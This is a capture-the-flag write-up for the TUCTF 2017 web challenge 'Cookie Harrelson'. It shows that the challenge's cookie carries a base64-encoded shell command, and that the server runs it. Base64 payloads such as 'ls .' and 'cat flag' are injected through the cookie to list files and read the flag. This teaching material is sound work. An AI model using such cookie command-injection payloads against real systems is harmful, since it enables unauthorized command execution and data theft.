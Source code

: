 # TUCTF 2017 – Cookie Harrelson

* **Category:** web
* **Points:** 200

## Challenge

> Woody Harrelson has decided to take up web dev after learning about Cookies. Show him that he should go back to killing zombies.
> [http://cookieharrelson.tuctf.com](http://cookieharrelson.tuctf.com)

## Solution

Analyzing the cookies you can find the following:

```
tallahassee : Y2F0IGluZGV4LnR4dA%3D%3D
```

This cookie is base64 encoded:

```
Y2F0IGluZGV4LnR4dA==
```

Decoding it:

```
cat index.txt
```

Trying a command injection via the cookie will generate Base64 cookies in the following format:

```
cat index.txt #ls
```

So, trying to inject the Base64 version of this snippet:

```
!/bin/bash
ls .
```

Will enumerate the folder content, showing the presence of a "flag" file.
Trying to print the "flag" file with the following script (encoded via Base64 and passed into the cookie):

```
!/bin/bash
cat flag
```

Will show the flag:

```
TUCTF{D0nt_3x3cut3_Fr0m_C00k13s}
```